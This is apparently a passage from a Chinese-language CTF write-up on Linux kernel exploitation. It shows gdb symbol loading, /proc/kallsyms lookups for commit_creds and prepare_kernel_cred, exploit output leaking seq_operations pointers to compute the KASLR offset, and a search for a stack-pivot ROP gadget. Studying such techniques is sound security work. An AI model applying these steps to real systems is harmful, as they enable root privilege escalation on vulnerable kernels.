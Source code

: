 gdb添加符号

```
gdb ./test.ko
add-symbol-file ./test.ko 0xffffffffc031d000
```

> head /proc/kallsyms
>
> ......
>
> 000000000002e040 A kvm_apic_eoi
> 000000000002e080 A steal_time
> 000000000002e0c0 A apf_reason
> 000000000002f000 A __per_cpu_end
> ffffffffbc400000 T startup_64
> ffffffffbc400000 T _stext
> ffffffffbc400000 T _text
> ffffffffbc400030 T secondary_startup_64
> ffffffffbc4000f0 t verify_cpu
> ffffffffbc4001f0 T start_cpu0
>
> ......

得到动态运行的基地址是ffffffffbc400000

控制seq_operations结构体时泄露地址，计算偏移时发现`head /proc/kallsyms`找到的地址是从0开始的，找到`0xffffffffXXXXXXXX`式的地址来计算偏移

```assembly
cat /proc/kallsyms | grep "startup_64"
cat /proc/kallsyms | grep "prepare_kernel_cred"
cat /proc/kallsyms | grep "commit_creds"
```

泄露`seq_operations` 内容

```assembly
/ # ./exp
bc719d30
bc719d70
bc719d50
bc793390
/ # cat /proc/kallsyms | grep "bc719d30"
ffffffffbc719d30 t single_start
/ # cat /proc/kallsyms | grep "bc719d70"
ffffffffbc719d70 t single_stop
```

因此计算可以得到偏移

offset = ffffffffbc719d30-ffffffffbc400000

接下来寻找形如 "add rsp, val ; ret" 的 gadget 

```assembly
[----------------------------------registers-----------------------------------]
RAX: 0xffffffffb7f5b0f6 --> 0x5b00000180c48148
RBX: 0x0
RCX: 0x0
RDX: 0x0
RSI: 0xffff961441e0d910 --> 0x0
RDI: 0xffff961441e0d8e8 --> 0xffff9614408f2000 --> 0x0
RBP: 0xffffa885801d3e18 --> 0xffffa885801d3ea0 --> 0xffffa885801d3ee0 --> 0xffffa885801d3f20 --> 0xffffa885801d3f30 --> 0xffffa885801d3f48 (--> ...)
RSP: 0xffffa885801d3db8 --> 0xffffffffb7f1aa6e --> 0x850fc08548c78949
RIP: 0xffffffffb7f5b0f6 --> 0x5b00000180c48148
R8 : 0xffff9614438311a0 --> 0xffff9614408f4000 --> 0x0
R9 : 0xffff961443402700 --> 0x311a0
R10: 0xffff9614408f2000 --> 0x0
R11: 0x0
```